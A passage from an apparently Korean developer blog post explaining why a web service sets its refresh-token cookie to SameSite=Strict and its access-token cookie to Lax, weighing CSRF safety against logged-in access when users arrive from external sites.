또 토큰이 필요없는 개인화되지 않은 요청의 경우 클라이언트에서 백엔드 서버로 바로 요청을 해도 되는데, 이렇게 되면 결국 완전히 백엔드 도메인이 숨겨지지 않습니다. 그렇다고 해서 개인화되지 않은 요청도 Next 서버를 타고 가기에는 서버 스펙상 부담이 많이 될 것이라고 생각했고, 백엔드 도메인을 숨기는 보안적인 이점 대비 성능적인 단점이 더욱 뚜렷할 것이라고 생각했습니다.

1번의 경우 장점이 하나 더 있는데, `SameSite`를 `None`으로 하지 않아도 된다는 것입니다. 이러면 CSRF 토큰 없이도 CSRF에 안전하게 토큰을 관리할 수 있습니다.

## Strict? Lax?

도메인을 일치시킴으로써 쿠키의 `SameSite` 속성을 `Strict`, `Lax`로 할 수 있는 선택지가 생겼습니다.

Refresh Token, Access Token 각각에 대해 어떤 `SameSite` 전략이 적절한지 고민해보았습니다.

### Refresh Token

Refresh Token은 Access Token이 만료되었을 때 백엔드 서버로 갱신 요청을 할 때만 사용됩니다.
결국 Refresh 요청은 항상 `tinu.com` / `api.tinu.com` 동일한 사이트 컨텍스트에서만 발생하기 때문에 `SameSite`를 `Strict`로 하는 것이 가장 안전하다고 판단했습니다.

### Access Token

Access Token이 필요한 케이스에 대해 생각해보았습니다.

먼저 Access Token은 모든 개인화된 요청에 필요합니다. 프론트엔드와 백엔드의 도메인을 일치시켰기 때문에 API 요청 자체는 동일한 사이트 컨텍스트에서만 발생하므로 `Strict`로 해도 문제가 없습니다.

하지만 Access Token은 로그인 여부를 확인하는 데에도 필요합니다. 서버 사이드에서는 쿠키를 전달받아 확인해야 하는데, `Strict`로 하면 외부에서 서비스에 초기 진입 시 다음과 같은 문제가 발생합니다.

1. 유저가 `google.com`에서 틴유를 검색합니다.
2. 검색 결과를 클릭하여 `tinu.com`에 접속합니다. 여기서 브라우저에 이미 유효한 Access Token 쿠키가 존재한다고 가정합니다.
3. `google.com`과 `tinu.com`은 Cross-Site이므로 `Strict` 속성에 의해 쿠키가 전달되지 않습니다.
4. Access Token이 전달되지 않아 서버사이드에서 쿠키를 읽지 못하므로 비로그인으로 판단하고 브라우저에 유효한 Access Token이 존재하더라도 로그인 페이지로 리다이렉트되거나 비로그인 화면이 렌더링됩니다.

위와 같이 서비스의 초기 진입은 외부 진입점으로 진입하는 경우가 대부분입니다.<br/>
이 경우 `Lax`로 지정하면 top-level-navigation으로 이동하는 경우엔 Cross-Site임에도 쿠키 전송을 허용하므로 외부 진입점으로 진입하더라도 쿠키를 전달받을 수 있습니다.

이런 이유로 Refresh Token은 `Strict`, Access Token은 `Lax`로 `SameSite` 속성값을 결정하였습니다.

